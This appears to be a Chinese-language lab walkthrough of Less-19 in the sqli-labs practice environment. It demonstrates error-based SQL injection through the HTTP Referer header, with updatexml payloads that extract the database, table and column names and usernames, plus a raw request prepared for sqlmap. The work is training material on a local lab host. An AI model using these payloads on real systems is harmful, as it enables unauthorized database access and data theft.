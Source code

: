 
成功登录后返回referer位置，说明在**数据包头referer位置有**注入点

> Your IP ADDRESS is: 192.168.31.119
> Your **Referer** is: http://192.168.31.193/Less-19/

报错注入

## 爆破数据库名

`1',updatexml(1,concat(0x7e,database(),0x7e),1))#`

> Your IP ADDRESS is: 192.168.31.119
> Your Referer is: 1',updatexml(1,concat(0x7e,database(),0x7e),1))#
> XPATH syntax error: '~security~'



## 爆破数据表名

`1',updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1))#`

## 爆破字段名

`1', updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)) -- +` 

## 爆破字段

`1', updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)) -- +` 

## sqlmap

将数据包保存后 在referer后面加上*即可

```bash
POST /Less-19/ HTTP/1.1
Host: 192.168.31.193
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/Less-19/*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

passwd=admin&uname=admin
```
